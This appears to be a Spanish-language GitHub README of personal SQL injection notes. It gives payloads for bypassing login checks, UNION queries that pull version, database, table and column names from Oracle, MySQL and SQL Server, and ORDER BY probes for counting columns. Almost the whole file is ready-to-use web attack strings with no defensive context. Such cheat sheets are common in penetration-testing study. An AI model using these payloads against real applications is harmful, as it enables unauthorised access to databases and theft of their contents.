 # SQL Injection
En este repositorio incluire mis notas de sql injection y algunos payloads utilizados por mi.

## Payloads de autenticación
```sql
abc' or 1=1-- -
abc' or 1=1#
abc' or '1'='1
```
## Recopilar información de la base de datos
### Version
#### Oracle
```sql
' union select BANNER,null from v$version-- -
' union select VERSION,null from V$INSTANCE-- -
```
#### MySQL
```sql
' union select @@version,null-- -
' union select VERSION(),null-- -
```
#### Microsoft SQL Server
```sql
' union select @@version,null-- -
' union select SERVERPROPERTY('productversion'),null-- -
```
### Bases de datos
#### Non-Oracle
```sql
' union select null,DISTINCT(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
#### Oracle
```sql
' union select null,DISTINCT(USERNAME) FROM ALL_USERS-- -
```
### Tablas
#### Non-Oracle
```sql
' union select null,table_name FROM information_schema.tables-- -
```
#### Oracle
```sql
' union select null,table_name from all_tables-- -
```
### Columnas
#### Non-Oracle
```sql
' union select null,column_name FROM information_schema.columns where table_name='NOMBRE DE LA TABLA'-- -
```
#### Oracle
```sql
' union select null,column_name from all_tab_columns where table_name='NOMBRE DE LA TABLA'-- -
```
## Determinar el numero de columnas
```sql
abc' order by 3-- -
# Respuesta 200 OK
abc' order by 20 -- -
# Respuesta 500 Internal Server Error
```
Hay por lo menos 3 columnas y menos de 20, cambiar los numeros hasta determinar el numero de columnas

